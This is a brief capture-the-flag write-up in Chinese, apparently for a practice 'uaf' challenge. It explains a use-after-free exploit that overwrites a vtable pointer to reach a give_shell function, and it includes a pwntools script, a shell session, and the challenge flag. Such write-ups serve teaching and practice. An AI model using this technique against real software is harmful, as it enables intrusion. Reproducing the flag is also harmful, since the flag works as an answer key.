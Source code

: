 ```
      if ( v17 == 1 )                           // use
      {
        (*(*v13 + 8LL))(v13);
        (*(*v14 + 8LL))(v14);
      }
```

随便找一个指向get_shell的指针的地址减8以后转成字符串就好。

比如有：

```
.rodata:0000000000401550 off_401550      dq offset _ZN5Human10give_shellEv
.rodata:0000000000401550                                         ; DATA XREF: Woman::Woman(std::string,int)+24o
.rodata:0000000000401550                                         ; Human::give_shell(void)
```

所以用

```
from pwn import *

fd = open('something','wb')
fd.write(p64(0x401550-8))
fd.close()
```

记录：

```bash
uaf@ubuntu:/tmp$ /home/uaf/uaf 24 sth
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
ls: cannot open directory '.': Permission denied
$ cd /home/uaf
$ ls
flag  uaf  uaf.cpp
$ cat flag
yay_f1ag_aft3r_pwning
$ 
```
